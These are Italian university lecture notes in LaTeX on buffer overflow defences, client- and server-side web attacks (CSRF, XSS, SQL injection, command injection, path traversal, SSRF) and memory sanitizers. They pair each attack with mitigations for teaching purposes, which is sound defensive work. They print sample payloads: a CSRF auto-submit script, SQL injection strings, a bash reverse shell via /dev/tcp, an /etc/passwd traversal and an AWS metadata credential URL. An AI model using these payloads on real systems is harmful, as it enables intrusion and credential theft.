    
\includegraphics[width=0.8\linewidth]{img/capitolo2/stack3.png}
    \label{fig:stack3}
\end{figure}

La cosa più importante da capire oggi è: \textbf{come calcolare l'indirizzo da mettere nel return pointer}.

L'arte di creare un messaggio di buffer overflow è sartoriale per cui un pezzo di codice finisce nel mezzo dello
stack, alla fine invece abbiamo un indirizzo e il \textbf{NOP Sled} (che è un riempitivo).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{img/capitolo2/stack4.png}
    \label{fig:stack4}
\end{figure}

\section{Prevenzione buffer overflow}

La cosa più naturale e semplice è quella di scartare tutte le funzioni che non sono sicure by-design, quindi:

\begin{itemize}
    \item \textit{gets()}, legge l'input senza controllarlo
    \item \textit{strcpy()}, \textit{strcat()}, copia e concatenazione da sorgente a destinazione e non hanno un limite
    \item altre funzioni possono essere: \textit{scanf()}, \textit{fscanf()}, \textit{sscanf()} e tante altre
    \item non solo funzioni, anche dei semplici cicli possono causare overflow
\end{itemize}

Quelle che \textbf{apparentemente sembrano sicure} sono: \textit{strncpy()}, \textit{strncat}, \textit{snprintf}.
Ma perché sono apparentemente sicure? Prima di tutto perché non sono di facile utilizzo, in secondo
presentano alcuni problemi. Ad esempio, la funzione di copia o concatenamento non usa il terminatore.

\section{Contromisure buffer overflow}

Esistono due macro-famiglie di difese:

\begin{itemize}
    \item Approcci basati su Compilatori
    \begin{itemize}
        \item Canarino
        \item LibSafe
        \item Alternative inserite dal compilatore
    \end{itemize}
    \item Approcci basati a tempo di esecuzione/SO
    \begin{itemize}
        \item Stack non eseguibile
        \item Allocazione dei dati/codice randomizzata all'interno della memoria (ASLR)
    \end{itemize}
\end{itemize}

Vediamo l'approccio basato su \textbf{canarino}. Lo stack, prima di eseguire 
la funzione immette un stringa randomica tra l'indirizzo di ritorno e il 
resto dello stack (ovvero il canarino) e questo stesso valore viene salvato 
in un registro segreto casuale e non è scritto nel programma. Supponiamo 
che vi sia stato un buffer overflow; prima di effettuare il return la
funzione legge il canarino e confronta il valore con il registro: se il 
valore non coincide allora c'è stato un problema e viene bloccata 
l'esecuzione.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{img/capitolo2/stack5.png}
    \label{fig:stack5}
\end{figure}

Vi è poi un altro elenco di difese e attacchi, ma spesso sembra giocare al gatto e al topo:

\begin{enumerate}
    \item Se la difesa è non rendere eseguibile lo stack/heap ciò che si fa è piuttosto che iniettare lo shell code,
    chiamiamo una funzione di libreria e quindi una primitiva.
    \item Se la difesa è nascondere l'indirizzo delle funzioni di libreria (libc code) o si adottano tecniche ASLR
    si possono provare attacchi a forza bruta il cui compito è individuare tale indirizzo.
    \item Se la difesa è non usare il codice della libc abbiamo come possibile attacco la costruzione delle
funzioni di cui si ha bisogno sfruttando il return oriented programming (ROP).
\end{enumerate}

Anche se esistono difese non è detto che queste vengono adottate; ad esempio molti prodotti IoT non lo
fanno.

\chapter{Web Security}

\section{Attacchi lato Client}

Per comprendere gli attacchi lato client, dobbiamo partire dal livello di 
applicativo. Il protocollo HTTP è intrinsecamente \textit{stateless} (privo di stato): 
ogni richiesta è indipendente dalle precedenti. Per implementare logiche 
di stato (es. carrelli e-commerce, login), le applicazioni web delegano la 
gestione della sessione al browser dell'utente tramite \textbf{cookie}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{img/capitolo3/cookie.png}
    \label{fig:cookie}
\end{figure}

Al login, il server invia un header \textbf{Set-Cookie} contenente un 
identificativo di sessione univoco (\textit{Session ID}). Da quel momento, 
il browser allegherà automaticamente quel cookie a ogni successiva 
richiesta HTTP diretta a quel dominio.

Un cookie rappresenta un vero e proprio "passpartout". Se un attaccante 
riesce a sottrarlo (\textit{Cookie Theft}), ottiene gli stessi esatti 
privilegi dell'utente legittimo (\textit{Session Hijacking}).

\subsection{Cross-Site Request Forgery (CSRF)}

Il CSRF sfrutta proprio il meccanismo di invio automatico dei cookie da 
parte del browser. Il server vulnerabile riceve una richiesta HTTP valida, contenente il 
corretto cookie di sessione, ma non ha un modo nativo per distinguere se 
l'azione sia stata avviata intenzionalmente dall'utente (\textit{Same-site}) o 
forgiata in modo invisibile da un sito terzo (\textit{Cross-site}).

Procediamo ad illustrare la vulnerabilità attraverso un esempio: attacco al
servizio "Add-Friend" del social network Elgg. L'attaccante (Samy) vuole 
forzare la vittima (Alice) ad aggiungerlo agli amici senza il suo 
consenso.

Prima di forgiare la richiesta, Samy preliminarmente crea un altro account
su Elgg (chiamato Charlie), nell'account di Charlie invia una richiesta di
amicizia a Samy proprio per aggiungerlo alla sua lista degli amici; a questo punto,
attraverso tool di sviluppo web, Samy cattura la richiesta HTTP necessaria
per l'aggiunta di un nuovo amico.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{img/capitolo3/get.png}
    \label{fig:get}
\end{figure}

\begin{enumerate}
    \item Samy scopre che l'aggiunta di un amico avviene tramite una 
    richiesta GET: \textbf{GET /action/friends/add?friend=42} (dove 42 è 
    l'ID di Samy).
    \item Samy crea una pagina web malevola su un suo server (attacker32.com).
    \item In questa pagina, inietta il seguente payload JavaScript per forgiare la richiesta:
\end{enumerate}

\begin{lstlisting}
    <script>
    window.onload = function(){
        // Crea un form DOM invisibile
        var p = document.createElement("form");
        p.action = "http://www.seed-server.com/action/friends/add";
        p.method = "get";
        // Inserisce l'ID di Samy come parametro nascosto
        p.innerHTML = "<input type='hidden' name='friend' value='42'>";
        document.body.appendChild(p);
        p.submit(); // Sottomette automaticamente il form
    }
    <script>
\end{lstlisting}

Quando Alice (con la sessione attiva su Elgg) visita attacker32.com, il suo 
browser esegue il JS, invia il form a Elgg e, crucialmente, \textbf{allega il 
cookie di sessione di Alice}. Elgg elabora la richiesta credendola genuina.

\textbf{Mitigazioni CSRF}

\begin{itemize}
    \item \textbf{Referer Header}: Campo dell'intestazione HTTP che identifica l'
    indirizzo della pagina web da cui viene generata la richiesta. Un server può verificare se la
    richiesta proviene dalle proprie pagine oppure no. Tuttavia il campo Referer
    rivela parte della cronologia di navigazione, sollevando preoccupazioni
    in materia di privacy, motivo per cui è una contromisura non utilizzata.
    \item \textbf{SameSite Cookies}: Attributo dei cookie introdotto nei 
    browser moderni. Impostandolo su \textbf{Strict}, il browser si rifiuta di 
    inviare il cookie se la richiesta è innescata da un dominio di terze 
    parti. Se invece viene impostato su \textbf{Lax}, il browser invia il 
    cookie se la richiesta parte clickando un link, si rifiuta di inviarlo
    se la richiesta dovesse partire caricando un'immagine o frame.
    \item \textbf{Secret Token (Anti-CSRF Token)}: Il server incorpora un 
    valore randomico segreto e non predicibile in ogni form HTML (\textit{<input 
    type="hidden" name="\_\_elgg\_token" value="...">}). 
    Solo le richieste Same-site possono includere il valore segreto.
    Quando viene fatta una richiesta Cross-site, l'attaccante non può includere il token corretto,
    di conseguenza il server, non trovando il token, scarterà la richiesta.
\end{itemize}

Le contromisure \textbf{Referer Header} e \textbf{SameSite Cookies} vengono implementate dal
browser stesso proprio perchè il browser, a differenza del server, conosce
la differenza tra una richiesta Same-site e Cross-site. Il \textbf{Secret token} è
infatti l'unica contromisura che viene implementata dal server stesso e il
suo scopo è proprio quello di riuscire a distinguere le due tipologie di richiesta.

\subsection{Cross-Site Scripting (XSS)}

L'XSS è una vulnerabilità ancora più critica: mira a sovvertire direttamente 
la \textbf{Same Origin Policy (SOP)} iniettando codice JavaScript malevolo all'interno 
di una pagina fidata. Poiché il codice proviene (apparentemente) dal server 
fidato, il browser della vittima lo esegue conferendogli accesso totale al 
DOM e ai cookie del dominio.

Esistono due tipologie principali:

\begin{enumerate}
    \item \textbf{Reflected (Non-persistente)}: Nella versione Reflected 
    il codice dannoso non viene mai salvato sul server. Invece, viene 
    inviato al server e immediatamente "riflesso" (restituito) al browser 
    dell'utente all'interno della pagina web generata.
    L'attaccante trova una pagina web che accetta input dall'utente (come 
    una barra di ricerca o un modulo di login) e lo restituisce sulla 
    pagina senza prima averlo "sanitizzato" o codificato correttamente.
    L'attaccante crea un URL personalizzato che contiene il sito legittimo 
    ma include un payload dannoso (solitamente codice JavaScript) come 
    parametro. L'attaccante deve convincere la vittima a cliccare su quel 
    link specifico. Questo avviene spesso tramite email di phishing, 
    messaggi sui social media o nascondendo il link in un sito di terze 
    parti. Quando la vittima clicca sul link, il suo browser invia la 
    richiesta al server vulnerabile. Il server elabora la richiesta, 
    prende il payload dannoso dall'URL e lo inserisce direttamente nel 
    codice HTML della pagina di risposta. Il browser della vittima riceve 
    l'HTML e, poiché il codice dannoso si trova all'interno della risposta 
    di un sito di cui il browser si fida, il browser lo esegue.

    Illustriamo tale attacco tramite un esempio pratico: immaginiamo di avere
    un sito web con una funzione di ricerca, cerchiamo la parola "libri", l'URL
    potrebbe apparire così:
    \begin{gather*}
        \text{http://www.sitovulnerabile.com/search?q=libri}
    \end{gather*}
    La pagina web risponderà mostrando a schermo:
    \begin{gather*}
        \textit{Hai cercato: libri}
    \end{gather*}
    Se il sito è vulnerabile al Reflected XSS, un attaccante potrebbe 
    creare questo URL:
    \begin{gather*}
        \text{http://www.sitovulnerabile.com/search?q=<script>CodiceDannoso</script>}
    \end{gather*}
    Quando la vittima clicca su questo link, la pagina web mostrerà a 
    schermo (a livello di codice sorgente):
    \begin{gather*}
        \textit{Hai cercato: <script>CodiceDannoso</script>}
    \end{gather*}
    Il browser leggerà i tag \textit{<script>} e, invece di mostrare il testo, 
    eseguirà silenziosamente il codice dannoso in background.

    \item \textbf{Stored (Persistente)}: Il payload è salvato sul database 
    del server (es. nel profilo utente) ed eseguito ogni volta che una 
    vittima visita quella pagina. Questo è il caso del \textbf{Samy Worm} che ha 
    colpito \textit{MySpace}, propagandosi autonomamente sfruttando proprio questa 
    dinamica.

    L'attaccante inserisce un codice dannoso (solitamente JavaScript) in un 
    campo di input del sito web che salva i dati. Può essere un commento su 
    un blog, un post in un forum, la recensione di un prodotto, o la 
    biografia di un profilo utente. Il server web, non avendo dei filtri 
    di sicurezza adeguati per sanitizzare l'input, prende il codice così 
    com'è e lo salva nel suo database. Quando una vittima ignara visita la 
    pagina in cui è mostrato quel contenuto, il server le invia la pagina 
    web includendo il codice malevolo nascosto. Il browser della vittima 
    legge la pagina, trova il codice JavaScript e, credendo faccia parte 
    legittimamente del sito, lo esegue silenziosamente.

    La pericolosità dello Stored XSS risiede nel fatto che \textbf{la vittima non 
    deve cliccare su link sospetti o cadere in trappole di phishing}: le 
    basta visitare una pagina web del tutto normale e considerata sicura.

\end{enumerate}

\textbf{Mitigazioni XSS}

La filtrazione basata su \textbf{blacklist}, dunque rimuovere semplicemente 
la stringa \textit{<script>}, è destinata a fallire difatti l'autore del \textit{Samy worm} 
evase i filtri di MySpace sfruttando peculiarità del parser dei browser 
spezzando la stringa in \textit{<java$\backslash$nscript>}.

Analizziamo quindi alcune soluzioni reali al problema:

\begin{enumerate}
    \item \textbf{Encoding}: Non si tenta di rimuovere il codice, ma lo si
    disinnesca sostituendo i caratteri speciali HTML con le rispettive 
    entità (es. usando \textbf{htmlspecialchars} in PHP, che converte "\textbf{<}" in "\textbf{\&lt;}"). 
    Il browser tratterà l'input come un nodo testuale inerte, non come 
    codice da eseguire.
    \item \textbf{Content Security Policy (CSP)}: La CSP separa forzatamente 
    dati e codice impedendo l'esecuzione di JavaScript "inlined" all'interno 
    del file HTML. Il server invia un header HTTP come:
    \begin{gather*}
        \text{Content-Security-Policy: default-src 'self'; script-src 'self' *.example70.com}
    \end{gather*}
    In questo modo, anche se l'attaccante inietta un tag \textit{<script>}, 
    il browser della vittima valuterà l'header CSP e si rifiuterà di 
    eseguire il codice inline o da fonti non in "whitelist". Se si ha 
    necessità di includere script inline sicuri, la CSP permette di 
    autorizzarli rigorosamente solo associandovi un nonce crittografico 
    (\textit{<script nonce="hash\_segreto">}) generato dinamicamente dal 
    server ad ogni richiesta. Infine, altra possibilità è quella di specificare
    una politica basata sull'origine del codice: sarà consensito il codice
    proveniente dal proprio sito, example.com, e da Google ad esempio:
    \begin{gather*}
        \text{Content-Security-Policy: script-src 'self' example.com https://apis.google.com}
    \end{gather*}
\end{enumerate}

\section{Attacchi lato Server}

In questa parte andremo a focalizzarci sugli attacchi lato server: SQL 
Injection, OS Command Injection, Path Traversal e Server-Side Request 
Forgery (SSRF). Il filo conduttore di queste vulnerabilità è quasi sempre 
lo stesso: la pericolosa mescolanza tra dati non attendibili forniti 
dall'utente e il codice eseguibile, che altera la struttura logica prevista 
dal programmatore.

\subsection{SQL Injection}


La SQL Injection si verifica quando dati ostili provenienti dal client 
vengono inviati a un interprete (il database) e trattati come parte di un 
comando o di una query. Il problema architetturale alla base è 
l'interpolazione delle stringhe (\textit{String Interpolation}): i dati 
forniti dall'utente vengono concatenati testualmente al codice SQL, 
impedendo al parser del database di distinguere il dato dal comando. A tal 
proposito vediamo un esempio che riporta uno script PHP vulnerabile in cui
le variabili \textbf{\$\_GET['EID']} e \textbf{\$\_GET['Password']} vengono
iniettate in una query \textbf{SELECT}:

\begin{lstlisting}
    $sql = "SELECT Name, Salary, SSN FROM employee WHERE eid='$eid' and password='$pwd'";
\end{lstlisting}

Se l'attaccante inserisce come EID il valore \textbf{EID5002' \#}, la query risultante 
diventa: \textbf{WHERE eid='EID5002' \#' and password='...'}. Il singolo apice 
iniettato chiude la stringa, mentre il carattere \# dice al DBMS di ignorare 
il resto della riga (che includeva il controllo della password), permettendo 
il login bypass.

Un payload alternativo è \textbf{a' OR 1=1 \#}. Questo rende la clausola \textbf{WHERE} 
sempre vera (1=1), costringendo il database a restituire tutti i record 
della tabella.

Infine, nelle query di \textbf{UPDATE} o \textbf{INSERT}, l'attaccante 
può aggiungere attributi non previsti. Se il campo "nuova password" riceve 
il payload \textbf{paswd456', salary=100000 \#}, l'attaccante chiude il 
campo password e sovrascrive il parametro salary a suo vantaggio:

\begin{lstlisting}
    $sql = "UPDATE employee
    SET password='paswd456', salary=100000 #'
    WHERE eid='EID5000' and password='paswd123'";
\end{lstlisting}

\textbf{Mitigazioni SQL Injection}

In generale approcci basati sul \textbf{Filtering and Encoding} non sono molto efficaci; 
vediamo comunque qualche esempio: tutto ciò che non è una lettera sarà 
passato ad una fase di encoding “aaa'” → “aaa$\backslash$'”. Il backslash fa 
sì che tutto ciò che viene scritto dall'utente vada a finire effettivamente 
nel campo username; così facendo dunque i caratteri "'" e "\#" non daranno più
istruzioni verso al DB di chiudere una stringa o ignorare una parte della 
stringa SQL. Il linguaggio PHP ha un'estensione chiamata \textit{mysqli} che
ha un metodo utile proprio a questo scopo (\textit{mysqli::real\_escape\_string()}):

\begin{lstlisting}
    $eid = $mysqli->real_escape_string($_GET['EID']);
    $pwd = $mysqli->real_escape_string($_GET['Password']);

    $sql = "SELECT Name, Salary, SSN
    FROM employee
    WHERE eid='$eid' and password='$pwd'";
\end{lstlisting}

La soluzione definitiva è l'utilizzo dei \textbf{Prepared Statements}. Con questa 
tecnica, l'applicazione invia prima al database un template della query 
(canale del codice), usando dei placeholder (ad esempio "?"). Solo successivamente 
invia i parametri utente (canale dei dati) associandoli ai placeholder. 
Poiché il database conosce a priori la struttura logica del 
comando, i dati non vengono mai sottoposti a parsing come codice, 
neutralizzando l'attacco.

\begin{lstlisting}
    $sql = "SELECT Name, Salary, SSN <- Query template 
    FROM employee
    WHERE eid=? and password=?"; 
    $stmt = $conn->prepare($sql); <- Si invia il codice
    $stmt = $conn->bind_param("ss", $eid, $pwd); <- Si inviano i dati
    $stmt->execute(); <- Esecuzione
\end{lstlisting}

\subsection{OS Command Injection}

L'OS Command Injection avviene quando l'input dell'utente viene passato a 
una shell di sistema (es. Bash) senza un'adeguata sanitizzazione. L'uso di 
funzioni come \textbf{system()} in PHP è un vettore classico:
\begin{gather*}
    \text{system("ping " . \$\_GET['host']);}
\end{gather*}
dove il paramentro \textbf{\$\_GET['host']} è controllato dall'utente/attaccante!

La shell di sistema usa caratteri speciali per controllare il flusso di 
esecuzione, come ";" (separatore), "\&\&" (AND logico) o "||" (OR logico). 
Se un attaccante invia \textbf{example.com; malicious-command}, il sistema 
eseguirà regolarmente il ping e, subito dopo, il comando malevolo.
Tale vulnerabilità è particolarmente pericolosa in quanto permette all'attaccante
di ottenere accesso persistente invocando una reverse shell in bash:
\begin{gather*}
    \text{example.com; bash -c 'bash -i >\& /dev/tcp/127.0.0.1/12345 0>\&1'}
\end{gather*}

\textbf{Mitigazioni OS Command Injection}

Ancora una volta bisogna evitare la \textit{string interpolation} e fare uso
della \textbf{parametrizzazione}, passando il comando e i suoi argomenti 
come elementi separati di un array (ad esempio \textbf{subprocess.call(['ls', '-l', user\_input])}),
in modo che il sistema operativo tratti l'input utente esclusivamente come 
stringa argomento e non come comando da interpretare:

\begin{lstlisting}
    import subprocess
    user_input = "foo ; cat /etc/passwd"
    # Vulnerabile
    subprocess.call("ls -l {}".format(user_input), shell=True)
    # Non vulnerabile
    subprocess.call(['ls', '-l', user_input])
\end{lstlisting}
è infatti buona prassi evitare di utilizzare \textit{shell=True} in 
\textit{subprocess.call} in Python, anche se spesso nei forum di 
Stack Overflow molti utenti raccomandano di inserirlo.

\subsection{Path Traversal (File Disclosure)}

Il Path Traversal permette all'attaccante di leggere dati sul disco di una 
macchina. Un sito che permette di caricare dei file, sicuramente non 
dovrebbe permettere a chiunque di leggere i file sul disco. Per esempio 
un attaccante potrebbe voler leggere i file di configurazione 
(config.php, tomcat-users.xml, ecc).

Sfruttando la sintassi dei filesystem POSIX/Windows, un attaccante forza 
le funzioni di I/O (come \textit{open()}, \textit{fopen()}, \textit{file\_get\_contents()}) 
a uscire dalla cartella base ("web root") prevista dall'applicazione.

Il Path Traversal fa spesso uso della notazione "\textit{dot-dot}" del filesystem
dell'OS; l'exploit si basa infatti sull'iniettare stringhe "\textbf{../}", che
nei sistemi operativi puntano alla directory genitrice.

\begin{lstlisting}
<?php
    $template = 'blue.php';
    if( isset($_COOKIE['TEMPLATE']) ) {
        $template = $_COOKIE['TEMPLATE'];
    }
    include("/home/users/web/templates/" . $template);
?>
\end{lstlisting}

siccome la variabile cookie è controllata dall'attaccante, allora egli potrebbe
iniettare stringhe "\textit{dot-dot}":
\begin{gather*}
    \text{TEMPLATE="../../../../etc/passwd"}
\end{gather*}
Questo elude la root, naviga verso la root di sistema "\textbf{/}" e richiede 
il file delle password di Linux. Questo permette l'esfiltrazione di file 
di configurazione o la lettura del codice sorgente stesso.

\textbf{Mitigazioni Path Traversal}

Prima di parlare delle contromisure alla Path Traversal specifichiamo che sia
in Linux che in Windows abbiamo due forme per indicare il percorso di un file:
\textbf{forma canonica} e \textbf{forma non canonica}.

\begin{lstlisting}
            /var/www/../ = /var
        /var/www/../../ = /
    /var/www/../../etc/ = /etc/
/var/www/../../etc/passwd = /etc/passwd
\end{lstlisting}

A sinistra abbiamo forme NON canoniche, mentre a destra abbiamo le forme 
canoniche per indicare il percorso di un file; entrambe le forme puntano 
alla stessa risorsa ma lo fanno in modo diverso.

Parlando di contromisure, la principale è la \textbf{normalizzazione del path}, 
ossia convertire i percorsi in forma canonica. A tal fine ci viene in aiuto 
ad esempio la funzione \textit{realpath()} di PHP che converte i "../" nella 
loro destinazione assoluta; una volta convertito il path si possono fare i 
dovuti controlli per verificare che esso inizi esattamente con la directory
desiderata (ad esempio \textbf{str\_starts\_with(\$canonical, '/var/www/')}):

\begin{lstlisting}
<?php
    // converte "../../passwd" in "/etc/passwd"
    $canonical = realpath('../../etc/passwd');
    if(!str_starts_with($canonical, '/var/www/')) {
    // Path Traversal rilevato!
    }
?>
\end{lstlisting}

\subsection{Server-Side Request Forgery (SSRF)}

Nella SSRF, l'attaccante fornisce un URL all'applicazione web affinché il 
server stesso generi una richiesta HTTP verso quell'indirizzo per suo conto. 
Il problema sorge perché l'applicazione usa librerie come \textit{cURL} o \textit{urllib} 
di Python per fare fetch di risorse senza validare le destinazioni. Il 
server web agisce come un proxy involontario, permettendo all'attaccante, 
che dall'esterno non potrebbe accedere a macchine interne a causa di un 
firewall, di raggiungere la rete interna, amministrazioni di dashboard, 
DBMS, o servizi in cloud.

\textit{\textbf{Payload AWS IMDS}}: Si tratta di un attacco devastante che mira all'\textit{Instance Metadata Service} (IMDS) di 
Amazon Web Services, disponibile all'IP di link-local fittizio 
169.254.169.254. Sfruttando un'API vulnerabile che accetta URL 
(come in un plugin OAuth o l'upload di una foto), l'attaccante invia: 
http://169.254.169.254/latest/meta-data/iam/security-credentials/Admin-Role. 
Il server web farà la richiesta e restituirà le credenziali crittografiche 
(\textit{IAM security credentials}) della macchina.

\textbf{Mitigazioni SSRF}

Le SSRF sono notoriamente difficili da estirpare alla radice. L'approccio 
raccomandato consiste nel \textbf{validare l'URL inserito dall'utente 
confrontandolo con una whitelist} (lista di domini/IP esplicitamente permessi). 
È inoltre opportuno incapsulare le chiamate HTTP attraverso proxy interni 
sicuri che blocchino la risoluzione di indirizzi privati, oppure utilizzare 
librerie e client nati con scopi di sicurezza, come \textit{safeurl} in Go:

\begin{lstlisting}
config := safeurl.GetConfigBuilder().
                  setAllowedSchemes("https").
                  setAllowedIPs("10.10.100.101").
                  Build()
client := safeurl.Client(config)
resp, err := client.Get(untrusted)
if err != nil {
    // ERROR
}
\end{lstlisting}

La soluzione più suggerita è comunque utilizzare un proxy HTTP; sarà 
all'interno del proxy che andiamo a configurare la whitelist. Qui la 
whitelist non è presente all'interno della web application, bensì nel proxy 
stesso. Conviene dunque esternalizzare la gestione della whitelist proprio 
perchè spesso lo sviluppatore non ha visibilitá degli indirizzi IP con cui 
dovrá prima o poi interfacciarsi.
\chapter{Sanitizers}
In questo capitolo esploreremo le vulnerabilità critiche legate alla gestione 
della memoria in C/C++ (come \textit{buffer overflow}, \textit{use-after-free} e \textit{uninitialized 
memory}) e analizzeremo il funzionamento dei "Sanitizers". In 
particolare, metteremo in luce la contrapposione tra l'approccio dinamico di \textbf{Valgrind} a quello statico 
di \textbf{AddressSanitizer} (\textbf{ASan}), spiegandone l'implementazione a livello di 
shadow memory e l'impatto sulle performance.

I bug di gestione della memoria sono subdoli perché un programma può 
tecnicamente "sopravvivere" a un buffer overflow senza andare in crash.
Questo accade per ragioni architetturali specifiche:

\begin{itemize}
    \item La memoria heap è pre-allocata ed espandibile, con permessi di lettura e scrittura (R/W).
    \item La memoria viene allocata dal sistema operativo in "\textbf{pagine}" (tipicamente da 4096 byte su architetture Linux/x86).
    \item Se un overflow eccede il buffer allocato (es. 30 byte) ma rimane 
    all'interno della stessa pagina di memoria, non viene generata alcuna 
    eccezione a livello di CPU (\textit{page fault}) e il programma continua 
    l'esecuzione.
    \item Il crash si verifica solo quando l'overflow tenta di accedere a una pagina non mappata o protetta, causando un'eccezione hardware.
\end{itemize}

\section{Analisi delle vulnerabilità legate alla memoria}

\subsection{Buffer Over-read}

A differenza dell'overflow distruttivo, l'over-read non sovrascrive nulla, 
ma legge oltre i limiti previsti, causando la fuga di dati sensibili.
Esempio di buffer Over-read storicamente noto è il bug \textbf{Heartbleed} di 
\textit{OpenSSL} nel quale il client invia un payload contenente una stringa
e la sua lunghezza dichiarata; se il client invia ad esempio la parola "HAT" 
ma dichiara una lunghezza di 500 caratteri, il server alloca un buffer e 
copia i 3 caratteri. Successivamente, il server legge 500 byte a partire 
dall'indirizzo di memoria di "HAT", inviando indietro al client i 497 byte 
adiacenti che si trovavano già in memoria; il problema è proprio legato a quei
497 byte poiché possono contenere chiavi master del server, password di altri 
utenti o dati sensibili.

\subsection{Double-free \& Use-After-Free}
Come sappiamo in C/C++ non abbiamo un \textit{garbage collector} infatti gestiamo
manualmente la memoria. Non dovremmo assolutamente fare due volte una \textit{free} e
nè dovremmo usare un puntatore ad una certa area se abbiamo fatto la \textit{free}.

Questa vulnerabilità nasce proprio quando la memoria allocata dinamicamente 
(con \textit{new} o \textit{malloc}) viene liberata (con \textit{free} o 
\textit{delete}) ma il programma continua ad utilizzare un puntatore che punta 
a quell'area.

Esempio di \textbf{Safari} (Apple):

\begin{lstlisting}
//un oggetto "animator" viene creato
Animator * animator = getAnimatorObj();
...
//la funzione setCurrentTime() attiva l'handler() che resetta l'oggetto "animator"
...
delete svg->animator_ptr;
//...continuo della funzione setCurrentTime()
animator->DoSomething(); // uso della memoria liberata!
\end{lstlisting}

Nel motore JavaScript, viene creato un oggetto \textit{animator\_ptr} in C++. 
Una funzione \textit{setCurrentTime()} innesca una reazione a catena che 
cancella (\textit{delete}) questo oggetto, tuttavia, il puntatore viene 
riutilizzato subito dopo chiamando \textit{animator->DoSomething()}.

L'attaccante a questo punto può iniettare uno script JS \textit{MaliciousObject} poiché 
l'allocatore heap dell'OS, per efficienza, riutilizza l'area di memoria 
appena liberata assegnandola al \textit{MaliciousObject}. Quando viene 
chiamato \textit{animator->DoSomething()}, il programma esegue in realtà 
il codice dell'attaccante.

\subsection{Uninitialized memory}

Le variabili non inizializzate in C contengono i "rifiuti" (dati precedenti) 
rimasti in quel segmento di memoria.

Esempio del \textbf{kernel Linux} (CVE-2016-4569): tale problema dimostra 
come le chiamate di sistema (\textit{system call}) spostino lo stack 
pointer del kernel, ma non puliscano i contenuti dello stack. Se il kernel 
non inizializza una struttura dati e la copia in user space, i byte non 
inizializzati conterranno frammenti del kernel stack, permettendo agli 
attaccanti di bypassare mitigazioni come \textbf{ASLR}.

\subsection{Format string attacks}

Le funzioni della famiglia printf() e scanf() utilizzano le \textbf{format string}, ovvero un
linguaggio minimale per indicare e definire input e output, tipo \%s, \%d e così via.
Il problema nasce dal fatto che alcuni programmi permettono all'attaccante 
di controllare la format string, vediamo un esempio:

\begin{lstlisting}
int main() {
    char nome[100];
    printf("Inserisci un nome: ");
    fgets(nome, sizeof(nome)-1, stdin);
    printf(nome);       //SBAGLIATO!
    printf("%s", nome); //OK!
}
\end{lstlisting}

Dunque per fare la stampa di una variabile va usata sempre la format string "\%s" nella \textit{printf()}. 
